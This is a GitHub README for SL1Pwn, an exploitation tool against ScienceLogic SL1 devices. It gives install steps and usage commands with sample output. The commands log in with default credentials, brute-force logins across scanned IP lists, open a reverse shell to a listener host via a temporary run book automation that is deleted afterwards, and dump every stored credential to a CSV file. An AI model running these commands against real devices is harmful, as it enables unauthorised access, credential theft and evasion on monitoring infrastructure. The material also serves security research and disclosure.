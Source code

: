 # SL1Pwn - ScienceLogic SL1 Exploitation
<p align="center">
  <img src="https://github.com/3NailsInfoSec/SL1Pwn/assets/131826735/38c24789-7936-4e48-9b04-f864453bdcfa">
</p>

This tool utilizes default credentials to obtain a reverse shell, dump credentials, and login via HTTP and SSH (single or bulk) on ScienceLogic SL1 devices. If default credentials are not correct, you can supply your own.
## Read:
<a href ="https://www.3nailsinfosec.com/post/using-discord-s-voice-channel-for-c2-operations">Hacking the Heartbeat Monitor of a Data Center - ScienceLogic SL1</a>

## Install:
```
git clone https://github.com/3NailsInfoSec/SL1Pwn.git
cd SL1Pwn
pip3 install -r requirements.txt
```
## Usage:

#### Login - Test login with default creds on port 443:
```
python3 sl1pwn.py -t 1.1.1.1

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
```

#### SSH - Test ssh login with custom creds
```
python3 sl1pwn.py -t 1.1.1.1 -p 22 -user em7admin -pass admin123

[+] Possible SSH success 1.1.1.1:22
```

#### Shell - Pop shell on SL1 device (setup netcat listener first)
```
python3 sl1pwn.py -t 1.1.1.1 -shell -L 2.2.2.2 -P 4444

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
[*] Created action with name: kjsKKe
[*] Created schedule successfully: 25
[*] Created automation successfully: 115

[+] Run book executed! Press enter when ready to clean up...

[*] Deleted action[121]: kjsKKe
[*] Deleted schedule[25]: kjsKKe
[*] Deleted automation[115]: kjsKKe

# nc -lvp 4444
Connection received on 1.1.1.1 45352
sh-4.2$
```

#### Dump - Dump all creds stored in SL1
```
python3 sl1pwn.py -t 1.1.1.1 -dump -o target_creds.csv

[*] Dumping 1.1.1.1::22 stored api credentials

[LifeSize: Endpoint SNMP]
[Cisco: CSP SNMP Port 161 Example]
[Cisco: CSP SNMP Port 1610 Exampl]
[Dell EMC: Isilon SNMPv2 Example]
[Cisco SNMPv3 - Example]
[Cisco SNMPv2 - Example]

[*] Saved to target_creds.csv
```

#### Scanning - Scan a combo IP:PORT list from a file
```
python3 sl1pwn.py -scan targets.txt -threads 25

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
[+] UI Login Success! https://1.1.1.2:443
[+] API Login Success! https://1.1.1.2:443
```

## Credits
<a href ="https://twitter.com/sm00v">Twitter: @sm00v</a>

<a href ="https://github.com/sm00v">Github: @sm00v</a>
